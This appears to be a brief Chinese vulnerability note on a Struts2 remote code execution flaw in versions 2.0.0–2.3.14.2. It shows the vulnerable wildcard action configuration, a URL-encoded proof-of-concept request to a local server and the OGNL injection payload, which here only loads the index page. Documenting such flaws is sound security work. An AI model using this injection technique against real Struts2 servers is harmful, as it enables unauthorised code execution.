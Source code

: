 # Struts2远程代码执行

受影响版本:

- 2.0.0-2.3.14.2

原因在于struts2.xml配置中有如下的配置:

```
<action name="*" class="example.ExampleSupport">
    <result>/example/{1}.jsp</result>
</action>
```

其中`{1}`是用户可以控制的变量
POC过程:

<pre>
http://127.0.0.1:8080/struts2demo/HelloWorld/%24%7b%23foo%3d%27index%27%2c%23foo%7d
</pre>

成功导入首页的页面。  
其payload为:  

<pre>
${#foo='index',#foo}
</pre>